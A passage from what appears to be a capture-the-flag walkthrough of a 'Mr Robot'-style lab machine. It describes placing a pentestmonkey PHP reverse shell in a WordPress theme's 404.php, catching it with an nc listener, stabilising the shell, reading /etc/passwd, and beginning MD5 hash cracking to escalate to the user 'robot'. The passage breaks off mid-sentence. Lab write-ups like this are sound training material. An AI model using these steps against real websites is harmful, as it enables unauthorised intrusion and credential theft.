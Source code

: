 
Now we have the credentials for the wp dashboard and could start to get our exploit running.  
Our way to go is to place a php reverse shell on the page.
The path for this is on the left side: **Appearance/Editor/404.php**
Edit the 404.php and paste in a reverse shell of [pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) (change to your ip and fav port).  
Save the changes and start a listener with:
  
`rlwrap nc -lvnp 9001` (rlwrap [Link](https://linux.die.net/man/1/rlwrap))
  

Visit for activation: **http://10.10.129.15/404.php**
  
<ins>Stabilize:</ins> 
  
`python -c 'import pty;pty.spwan("/bin/bash")'`
`ctrl-z`
`stty raw -echo`
`fg enter enter`
`export TERM=xterm`
  
  
---
  
  
# <ins>Privilege escalation</ins>
  
  
We do our normal inspection of the system:
`id`, `pwd`, `cat /etc/crontab`, `cat /etc/passwd` #check users and find robot, `cd /home/robot`

<ins> Escalate to robot</ins>
  
We could choose if we escalate to a user or directly to root. I choose the way to escalate to robot first.
  
```sh
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```
  
The info of this output give us a useful file for escalation, because we could not cat **key2** directly.

`cat password.raw-md5` and check with hash-identifier: Its an md5 hash.  
  

--
  
  
  
### <ins>Md5 hash cracking:</ins>
  
Save the md5 hash in a new file (the hash is the string after "robot:").  
I prefer to use [crackstation](https://crackstation.net/) for crack the password but you can also use hashcat:
  